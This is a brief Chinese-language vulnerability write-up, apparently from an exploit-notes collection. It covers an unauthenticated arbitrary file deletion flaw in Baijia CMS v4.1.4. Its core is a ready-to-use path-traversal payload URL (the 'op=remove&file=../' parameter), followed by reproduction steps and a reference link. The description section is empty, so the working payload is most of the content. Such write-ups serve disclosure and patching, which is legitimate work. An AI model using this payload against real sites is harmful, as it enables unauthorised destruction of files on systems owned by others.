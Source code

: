 # 百家cms v4.1.4 任意文件删除漏洞

### 一、漏洞简介

### 二、漏洞影响

百家cms v4.1.4

### 三、复现过程


```bash
# payload
# 不需要后台权限
# 只能删除文件，不能删除文件夹

http:/url/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt
```

设置里需要选择本地，否则删除的不是本地文件

![](images/15896946099454.png)


先在根目录下创建qwe.txt作为测试文件

![](images/15896946169392.png)


访问payload

![](images/15896946247749.png)


查看文件，已经被删除

![](images/15896946318099.png)


参考链接

https://xz.aliyun.com/t/7542